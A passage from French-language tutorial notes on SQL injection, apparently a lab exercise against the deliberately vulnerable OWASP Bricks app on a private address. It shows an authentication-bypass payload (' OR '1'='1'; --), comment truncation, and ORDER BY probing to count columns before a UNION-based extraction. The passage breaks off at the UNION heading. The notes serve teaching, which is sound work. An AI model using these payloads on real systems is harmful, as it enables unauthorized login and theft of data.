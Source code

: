 Ce qu'il y a après le "`-- `" étant considérer comme un commentaire, MySQL interprète le requête comme 
```
SELECT * FROM accounts WHERE username='admin';
```

## Injecter sans connaître d'utilisateur

Si on ne connait pas de nom d'utilisateur, on peut utiliser la syntaxe `xxx' OR '1'='1'; -- ` pour créer une requête qui soit toujours vrai.

Injecter sans connaitre un utilisateur : `nimp' OR '1'='1';-- `


# Injection SQL : récupération de données avec UNION

On va chercher à utiliser l'opérateur UNION pour extraire des données de la base SQL.

## Déterminer le nombre de colonnes

Prennons l'exemple de OWASP Bircks content 1.

L'URL : `http://192.168.56.101/owaspbricks/content-1/index.php?id=1`.

Effectue la requête :
```
SELECT * FROM users WHERE idusers=1 LIMIT 1
```

------------------------

On utilise l'opérateur `ORDER BY` pour déterminer le nombre de colonnes.

`http://192.168.56.101/owaspbricks/content-1/index.php?id=1+ORDER+BY+8` est valide, et correpond à la requête SQL

```
SELECT * FROM users WHERE idusers=1 ORDER BY 8 LIMIT 1;
```

```
+---------+------+-------------------+----------+---
| idusers | name | email             | password |
+---------+------+-------------------+----------+--- ...
|       1 | tom  | tom@getmantra.com | tom      |
+---------+------+-------------------+----------+---
```

Néanmoins, dès que l'on dépasse le nombre de colonnes avec `ORDER BY 9`, l'application renvoie une erreur.

![Injection avec un ORDER BY supérieur au nombre de colonnes de la requête](./images/order_by_9.png)

On en déduit donc que la __réponse à la requête SQL__ effectué par l'application ne contient que __8 colonnes__.

## Création d'une requête avec UNION
